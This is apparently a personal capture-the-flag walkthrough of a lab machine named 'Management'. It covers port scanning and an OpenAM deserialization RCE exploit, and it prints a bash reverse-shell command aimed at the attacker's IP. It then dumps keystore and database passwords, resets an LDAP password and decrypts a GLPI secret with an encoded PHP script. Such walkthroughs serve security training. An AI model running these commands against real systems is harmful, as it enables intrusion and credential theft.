

# Management

sudo nmap -sCV 10.129.62.33
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-09-28 09:22 EDT
Nmap scan report for 10.129.62.33
Host is up (0.015s latency).
Not shown: 995 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp    open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to [https://10.129.62.33/](https://10.129.62.33/)
|_http-server-header: nginx/1.24.0 (Ubuntu)
443/tcp   open  ssl/http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to [https://management.htb/](https://management.htb/)
|*http-server-header: nginx/1.24.0 (Ubuntu)
| tls-alpn:
|   http/1.1
|   http/1.0
|*  http/0.9
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=management.htb/organizationName=Management Managed Services Ltd
| Subject Alternative Name: DNS:management.htb, DNS:*.management.htb
| Not valid before: 2026-06-02T01:21:44
|_Not valid after:  2126-05-09T01:21:44
4444/tcp  open  ssl/ldap
| ssl-cert: Subject: commonName/organizationName=Administration Connector RSA Self-Signed Certificate
| Not valid before: 2026-06-02T01:23:59
|*Not valid after:  2046-05-28T01:23:59
| fingerprint-strings:
|   LDAPBindReq:
|     6LDAPv2 clients are not allowed to use request controls
|   LDAPSearchReq:
|     0<0:
|     objectClass1+
|     ds-root-dse
|*    ds-cfg-root-dse-backend0
|_ssl-date: TLS randomness does not represent time
50389/tcp open  ldap     (Anonymous bind OK)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at [https://nmap.org/cgi-bin/submit.cgi?new-service](https://nmap.org/cgi-bin/submit.cgi?new-service) :
SF-Port4444-TCP:V=7.95%T=SSL%I=7%D=9/28%Time=6ABA6A55%P=x86_64-pc-linux-gn
SF:u%r(LDAPSearchReq,55,"0E\x02\x01\x07d@\x04\x000<0:\x04\x0bobjectClass1\
SF:+\x04\x03top\x04\x0bds-root-dse\x04\x17ds-cfg-root-dse-backend0\x0c\x02
SF:\x01\x07e\x07\n\x01\0\x04\0\x04\0")%r(LDAPBindReq,44,"0B\x02\x01\x01a=\
SF:n\x01\x02\x04\0\x046LDAPv2\x20clients\x20are\x20not\x20allowed\x20to\x2
SF:0use\x20request\x20controls");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```jsx
tail /etc/hosts
# The following lines are desirable for IPv6 capable hosts
::1	localhost	ip6-localhost	ip6-loopback
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
127.0.1.1	pwnbox7.1
127.0.1.1	htb-290ufb7iod.htb-cloud.com	htb-290ufb7iod

127.0.0.1 localhost
127.0.1.1 htb-290ufb7iod htb-290ufb7iod.htb-cloud.com
10.129.62.33 management.htb sso.management.htb

```




CVE-2026-45051 (Pre-Auth RCE via WebAuthn Storage)

**CVE-2026-33439 (Pre-Auth RCE via `jato.clientSession`)**:

whatweb [http://management.htb](http://management.htb/); whatweb [http://sso.management.htb](http://sso.management.htb/)[http://management.htb](http://management.htb/) [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.62.33], RedirectLocation[[https://management.htb/](https://management.htb/)], Title[301 Moved Permanently], nginx[1.24.0]
[https://management.htb/](https://management.htb/) [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.62.33], Script, Title[Management — Managed IT & Infrastructure], nginx[1.24.0]
[http://sso.management.htb](http://sso.management.htb/) [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.62.33], RedirectLocation[[https://sso.management.htb/](https://sso.management.htb/)], Title[301 Moved Permanently], nginx[1.24.0]
[https://sso.management.htb/](https://sso.management.htb/) [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.62.33], RedirectLocation[[https://sso.management.htb/openam/](https://sso.management.htb/openam/)], Title[302 Found], nginx[1.24.0]
[https://sso.management.htb/openam/](https://sso.management.htb/openam/) [200 OK] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.62.33], Script[JavaScript], Title[Please Wait While Redirecting to Login page], X-Frame-Options[SAMEORIGIN], nginx[1.24.0]

git clone [https://github.com/TheMalwareGuardian/CVE-2026-33439.git](https://github.com/TheMalwareGuardian/CVE-2026-33439.git)
Cloning into 'CVE-2026-33439'...
remote: Enumerating objects: 42, done.
remote: Counting objects: 100% (42/42), done.
remote: Compressing objects: 100% (33/33), done.
remote: Total 42 (delta 6), reused 37 (delta 5), pack-reused 0 (from 0)
Receiving objects: 100% (42/42), 15.26 MiB | 45.03 MiB/s, done.
Resolving deltas: 100% (6/6), done.

```jsx
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-290ufb7iod]─[~/CVE-2026-33439]
└──╼ [★]$ cd '02 Exploit'/
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-290ufb7iod]─[~/CVE-2026-33439/02 Exploit]
└──╼ [★]$ ls
Exploit_CVE_2026_33439.py  Jars
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-290ufb7iod]─[~/CVE-2026-33439/02 Exploit]
└──╼ [★]$ python3 Exploit_CVE_2026_33439.py --url https://sso.management.htb/openam/XUI/#login/ --command "id"

  ██████╗ ██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██████╗      ██████╗ ██████╗ ██╗  ██╗█████╗  ██████╗
  ██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗██╔═══╝      ╚════██╗╚════██╗██║  ██║╚════██╗██╔══██
  ██║     ██║   ██║█████╗       █████╔╝██║██╔██║ █████╔╝███████╗      █████╔╝ █████╔╝███████║█████╔╝╚██████║
  ██║     ╚██╗ ██╔╝██╔══╝      ██╔═══╝ ████╔╝██║██╔═══╝ ██═══██║      ╚═══██╗ ╚═══██╗ ╚═══██║╚═══██╗╚════██║
  ╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗██████╔╝     █████╔╝ █████╔╝      ██║█████╔╝ █████╔╝
  ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝╚═════╝       ╚════╝  ╚════╝       ╚═╝╚════╝  ╚════╝

  CVE-2026-33439 | OpenAM Pre-Auth RCE via jato.clientSession Deserialization | CVSS 9.3 CRITICAL | CWE-502
  Author: TheMalwareGuardian - github.com/TheMalwareGuardian

[*] Probing JATO ViewBean endpoints...
  [OK] https://sso.management.htb/openam/XUI/#login/ui/PWResetUserValidation  →  HTTP 200
  [OK] https://sso.management.htb/openam/XUI/#login/ui/PWResetQuestion  →  HTTP 200
  [OK] https://sso.management.htb/openam/XUI/#login/ui/Login  →  HTTP 200
[*] Target endpoints         | ['/ui/PWResetUserValidation', '/ui/PWResetQuestion', '/ui/Login']
[!] Missing required JARs in .:
    - openam-core-16.0.5.jar
    - xalan-2.7.3.jar
    - serializer-2.7.3.jar
    - click-nodeps-2.3.0.jar
    - click-extras-2.3.0.jar
    - servlet-api.jar

    Copy from OpenAM container (run from PowerShell on host):
    docker cp cve_2026_33439_openam:/usr/local/tomcat/webapps/openam/WEB-INF/lib/<jar> .
    docker cp cve_2026_33439_openam:/usr/local/tomcat/lib/servlet-api.jar .
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-0mutxb97dx]─[~/CVE-2026-33439/02 Exploit]
└──╼ [★]$ cp Jars/* .
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-0mutxb97dx]─[~/CVE-2026-33439/02 Exploit]
└──╼ [★]$ python3 Exploit_CVE_2026_33439.py --url https://sso.management.htb/openam --command "/bin/bash -i >& /dev/tcp/10.10.14.80/4444 0>&1"

nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.62.33 48038
openam@management:/$ id
id
uid=996(openam) gid=987(openam) groups=987(openam)
openam@management:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
openam@management:/$ ^Z
[1]+  Stopped                 nc -lvnp 4444
┌─[us-dedivip-4]─[10.10.14.80]─[ronking37@htb-290ufb7iod]─[~]
└──╼ [★]$ stty raw -echo; fg
nc -lvnp 4444

openam@management:/$ export TERM=xterm
openam@management:/$ ls
bin                dev   lib64              mnt   run                 srv  var
bin.usr-is-merged  etc   lib.usr-is-merged  opt   sbin                sys
boot               home  lost+found         proc  sbin.usr-is-merged  tmp
cdrom              lib   media              root  snap                usr
openam@management:/$ cd /home
openam@management:/home$ ls
owen
openam@management:/home$ cd owen/
bash: cd: owen/: Permission denied
openam@management:/home$ cd ..
openam@management:/$ ls
bin                dev   lib64              mnt   run                 srv  var
bin.usr-is-merged  etc   lib.usr-is-merged  opt   sbin                sys
boot               home  lost+found         proc  sbin.usr-is-merged  tmp
cdrom              lib   media              root  snap                usr
openam@management:/$ cd opt
openam@management:/opt$ ls
backup  backups  glpi  openam  openam-tomcat  sysinternalsEBPF  sysmon
openam@management:/opt$ cd openam
openam@management:~$ ls
config
openam@management:~$ cd config
openam@management:~/config$ ls
boot.json  config  install.log  ldif  openam  opends  template
openam@management:~/config$ cat boot.json
{
  "instance" : "https://sso.management.htb:443/openam",
  "dsameUser" : "cn=dsameuser,ou=DSAME Users,dc=management,dc=htb",
  "keystores" : {
    "default" : {
      "keyStorePasswordFile" : "/opt/openam/config/openam/.storepass",
      "keyPasswordFile" : "/opt/openam/config/openam/.keypass",
      "keyStoreType" : "JCEKS",
      "keyStoreFile" : "/opt/openam/config/openam/keystore.jceks"
    }
  },
  "configStoreList" : [ {
    "baseDN" : "dc=management,dc=htb",
    "dirManagerDN" : "cn=Directory Manager",
    "ldapHost" : "sso.management.htb",
    "ldapPort" : 50389,
    "ldapProtocol" : "ldap"
  } ]
  
  openam@management:~/config/openam$ cat .keypass
changeit

openam@management:~/config/openam$ cat .storepass
S9n50IUgcRe1Lkj/7gp5OpdZHf1bphqh
```

/opt/glpi/config/config_db.php:   public $dbpassword = '8rhu0L6Pw4Y7';

openam@management:~/config$ cat boot.json
{
"instance" : "[https://sso.management.htb:443/openam](https://sso.management.htb/openam)",
"dsameUser" : "cn=dsameuser,ou=DSAME Users,dc=management,dc=htb",
"keystores" : {
"default" : {
"keyStorePasswordFile" : "/opt/openam/config/openam/.storepass",
"keyPasswordFile" : "/opt/openam/config/openam/.keypass",
"keyStoreType" : "JCEKS",
"keyStoreFile" : "/opt/openam/config/openam/keystore.jceks"
}
},
"configStoreList" : [ {
"baseDN" : "dc=management,dc=htb",
"dirManagerDN" : "cn=Directory Manager",
"ldapHost" : "sso.management.htb",
"ldapPort" : 50389,
"ldapProtocol" : "ldap"
} ]

LDAP authentication — solved. Bind as Directory Manager works:
ldapsearch -x -H ldap://sso.management.htb:50389 \
-D "cn=Directory Manager" -w 'rCi5i6A7zqAf' \
-b "dc=management,dc=htb" -LLL

Credentials recovered from keystore.jceks:

- cn=Directory Manager → rCi5i6A7zqAf
- cn=dsameuser → y1qJedqZosu2
- LDAP user demo → SSHA hash {SSHA}bbf4Mlh9h4YQSoldL08ynJIxGiBDjBAoMJUJgw==
(saved to ~/demo.hash)

```jsx
The password reset was two steps — an LDIF file, then ldapmodify:

  # 1. Create the change file
  cat > reset_demo.ldif <<'EOF'
  dn: uid=demo,ou=people,dc=management,dc=htb
  changetype: modify
  replace: userPassword
  userPassword: HelloThere15!
  EOF

  # 2. Apply it as Directory Manager
  ldapmodify -x -H ldap://sso.management.htb:50389 \
    -D "cn=Directory Manager" -w 'rCi5i6A7zqAf' \
    -f reset_demo.ldif

```

```jsx
openam@management:/dev/shm$ cat > /tmp/glpi_dec2.php.b64 <<'END'
> PD9waHAKLy8gRGVjcnlwdCBHTFBJLXN0b3JlZCBzZWNyZXRzIHVzaW5nIEdMUEkncyBPV04ga2V5IGNsYXNzIChoYW5kbGVzIGN1cnJlbnQgKyBsZWdhY3kga2V5cykuCi8vIFJ1biBPTiB0aGUgdGFyZ2V0OiAgcGhwIGdscGlfZGVjMi5waHAKZXJyb3JfcmVwb3J0aW5nKEVfRVJST1IgfCBFX1BBUlNFKTsgICAvLyBzaWxlbmNlIEdMUEkgZGVwcmVjYXRpb24gbm9pc2UKCi8vIExldCBHTFBJJ3Mgb3duIGF1dG9sb2FkZXIgZGVmaW5lIEdMUElfUk9PVCAvIEdMUElfQ09ORklHX0RJUiAoaXQgdGhyb3dzIGlmIHdlIHByZS1kZWZpbmUgdGhlbSkuCmNoZGlyKCcvb3B0L2dscGknKTsKcmVxdWlyZSAnL29wdC9nbHBpL3ZlbmRvci9hdXRvbG9hZC5waHAnOwppZiAoIWRlZmluZWQoJ0dMUElfQ09ORklHX0RJUicpKSB7IGRlZmluZSgnR0xQSV9DT05GSUdfRElSJywgJy9vcHQvZ2xwaS9jb25maWcnKTsgfQoKLy8gMSkgUHVsbCB0aGUgZW5jcnlwdGVkIHZhbHVlIHN0cmFpZ2h0IGZyb20gdGhlIERCIChubyBjb3B5L3Bhc3RlIGVycm9ycykuCiRlbmMgPSBudWxsOyAkcm9vdGRuID0gbnVsbDsKZm9yZWFjaCAoWydteXNxbGknLCdwZG8nXSBhcyAkZHJ2KSB7CiAgICB0cnkgewogICAgICAgIGlmICgkZHJ2ID09PSAnbXlzcWxpJyAmJiBjbGFzc19leGlzdHMoJ215c3FsaScpKSB7CiAgICAgICAgICAgICRkYiA9IG5ldyBteXNxbGkoJzEyNy4wLjAuMScsICdnbHBpJywgJzhyaHUwTDZQdzRZNycsICdnbHBpZGInKTsKICAgICAgICAgICAgJHIgID0gJGRiLT5xdWVyeSgiU0VMRUNUIHJvb3Rkbiwgcm9vdGRuX3Bhc3N3ZCBGUk9NIGdscGlfYXV0aGxkYXBzIExJTUlUIDEiKTsKICAgICAgICAgICAgJHJvdyA9ICRyLT5mZXRjaF9hc3NvYygpOwogICAgICAgIH0gZWxzZWlmICgkZHJ2ID09PSAncGRvJyAmJiBjbGFzc19leGlzdHMoJ1BETycpKSB7CiAgICAgICAgICAgICRwZG8gPSBuZXcgUERPKCdteXNxbDpob3N0PTEyNy4wLjAuMTtkYm5hbWU9Z2xwaWRiJywgJ2dscGknLCAnOHJodTBMNlB3NFk3Jyk7CiAgICAgICAgICAgICRyb3cgPSAkcGRvLT5xdWVyeSgiU0VMRUNUIHJvb3Rkbiwgcm9vdGRuX3Bhc3N3ZCBGUk9NIGdscGlfYXV0aGxkYXBzIExJTUlUIDEiKS0+ZmV0Y2goUERPOjpGRVRDSF9BU1NPQyk7CiAgICAgICAgfSBlbHNlIHsgY29udGludWU7IH0KICAgICAgICBpZiAoJHJvdykgeyAkcm9vdGRuID0gJHJvd1sncm9vdGRuJ107ICRlbmMgPSAkcm93Wydyb290ZG5fcGFzc3dkJ107IGJyZWFrOyB9CiAgICB9IGNhdGNoIChUaHJvd2FibGUgJGUpIHsgLyogdHJ5IG5leHQgZHJpdmVyICovIH0KfQovLyBmYWxsYmFjayB0byB0aGUga25vd24gYmxvYiBpZiBEQiByZWFkIGZhaWxlZAppZiAoJGVuYyA9PT0gbnVsbCkgewogICAgJGVuYyA9ICdhdnJxVzY1YVpXS3pMQUtXaFB4WkduMWVMajN5WUFud1VwMDhtRWF6c0pVV2ZJNWNxYmFQNnZNMTJ3MHAveWtwbXlPM1B3PT0nOwogICAgZndyaXRlKFNUREVSUiwgIlsqXSBEQiByZWFkIGZhaWxlZCwgdXNpbmcgaGFyZGNvZGVkIGJsb2JcbiIpOwp9CmZ3cml0ZShTVERFUlIsICJbKl0gcm9vdGRuID0gIiAuICgkcm9vdGRuID8/ICduL2EnKSAuICJcbiIpOwpmd3JpdGUoU1RERVJSLCAiWypdIGVuYyAgICA9ICRlbmNcbiIpOwoKLy8gMikgRGVjcnlwdCB3aXRoIEdMUEkncyBHTFBJS2V5ICh0cmllcyBjdXJyZW50IGtleSwgdGhlbiBsZWdhY3kpLgokcHQgPSBudWxsOwpmb3JlYWNoIChbJ1xcR2xwaVxcU2VjdXJpdHlcXEdMUElLZXknLCAnXFxHTFBJS2V5J10gYXMgJGNscykgewogICAgaWYgKGNsYXNzX2V4aXN0cygkY2xzKSkgewogICAgICAgIHRyeSB7CiAgICAgICAgICAgICRrICA9IG5ldyAkY2xzKCk7CiAgICAgICAgICAgICRwdCA9ICRrLT5kZWNyeXB0KCRlbmMpOwogICAgICAgICAgICBmd3JpdGUoU1RERVJSLCAiWytdIGRlY3J5cHRlZCB2aWEgJGNsc1xuIik7CiAgICAgICAgICAgIGJyZWFrOwogICAgICAgIH0gY2F0Y2ggKFRocm93YWJsZSAkZSkgewogICAgICAgICAgICBmd3JpdGUoU1RERVJSLCAiWy1dICRjbHMgdGhyZXc6ICIgLiAkZS0+Z2V0TWVzc2FnZSgpIC4gIlxuIik7CiAgICAgICAgfQogICAgfQp9CgppZiAoJHB0ICE9PSBudWxsICYmICRwdCAhPT0gJycpIHsKICAgIGVjaG8gInN2Yy1nbHBpIHBhc3N3b3JkOiAkcHRcbiI7CiAgICBleGl0KDApOwp9CmZ3cml0ZShTVERFUlIsICJbIV0gR0xQSUtleSBkZWNyeXB0IHJldHVybmVkIGVtcHR5LlxuIik7CmZ3cml0ZShTVERFUlIsICIgICAgQ2hlY2sgZm9yIGEgbGVnYWN5IGtleSBmaWxlOiBscyAtbGEgL29wdC9nbHBpL2NvbmZpZy8qLmtleVxuIik7CmV4aXQoMik7Cg==
> END
openam@management:/dev/shm$ base64 -d /tmp/glpi_dec2.php.b64 > /tmp/glpi_dec2.php && php /tmp/glpi_dec2.php
[*] rootdn = cn=svc-glpi,ou=services,dc=management,dc=htb
[*] enc    = avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==
[+] decrypted via \GLPIKey
svc-glpi password: WpczC40GhTbk

owen:WpczC40GhTbk
```

```jsx
sudo -l
Matching Defaults entries for owen on management:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User owen may run the following commands on management:
    (root) NOPASSWD: /usr/bin/rdiff-backup --server --restrict-path /opt/backup
        --restrict-mode read-only *

```